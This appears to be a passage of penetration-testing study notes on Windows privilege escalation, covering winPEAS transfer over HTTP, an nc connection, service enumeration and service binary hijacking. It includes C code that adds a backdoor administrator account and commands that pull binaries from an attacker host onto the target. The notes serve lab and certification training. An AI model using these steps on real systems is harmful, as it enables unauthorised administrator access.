 #### Automated Enumeration
- Use [peass](https://www.kali.org/tools/peass-ng/)
- On the target, copy the remote peas target to the local target using the [iwr](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet:
	```bash
	$ cp /usr/share/peass/winpeas/winPEASx64.exe .
	$ python3 -m http.server 80
	
	# different terminal
	$ nc 192.168.50.220 4444

	# differernt terminal
	> powershell
	> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
	```
### Leveraging Windows Services

#### Service Binary Hijacking

- If a service is not secured during installation and allows full read/write access to all members of the Users group, we can abuse this and replace the program with our own program. Then when our program is executed, it will be executed with the permissions of the service.
- To get a list of windows services, we can use various methods:
	- GUID snap-in *services.msc*
	- `Get-Service` cmdlet
	- `get-CimInstance` cmdlet (which supersedes the `Get-WmiObject` cmdlet)
		- We are interested in the name, state, and path of the binaries for each service and therefore, use **Select** with the arguments **Name**, **State**, and **PathName**. In addition, we filter out any services that are not in a **Running** state by using **Where-Object**.
		- `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- Next, get permissions of the service binaries you identified in the previous step using `icacls` or [Get-ACL](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.2)
	- eg: `icacls "C:\xampp\apache\bin\httpd.exe"`
	- `icacls` uses these symbols/masks to represent different permssions:
		- F - Full access
		- M - Modify access
		- RX - Read and execute access
		- R - Read-only access
		- W - Write-only access
	- Create your own binary to use on the target, eg:
		```c
		// compile with 'x86_64-w64-mingw32-gcc adduser.c -o adduser.exe'
		#include <stdlib.h>
		int main () {
			int i;
			i = system ("net user dave2 password123! /add");
			i = system ("net localgroup administrators dave2 /add");
			return 0;
		}
		```
	- Send the binary to the target using `iwr` or some other means
		- eg: `iwr -uri http://xxx.xxx.xxx.xxx/myCustomBin.exe -Outfile myCustomBin.exe`
	- Try restarting the service using `net stop SERVICENAME`. If that doesn't work, use `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'SERVICENAME'}` to check if the service's **StartMode** is **Auto**, in which case we could try to shutdown the system. We can check our privilege to shutdown to the system (among other privileges) with `whoami /priv`
	- Flow for these challenges:
		- Get a list of all installed and Running Windows service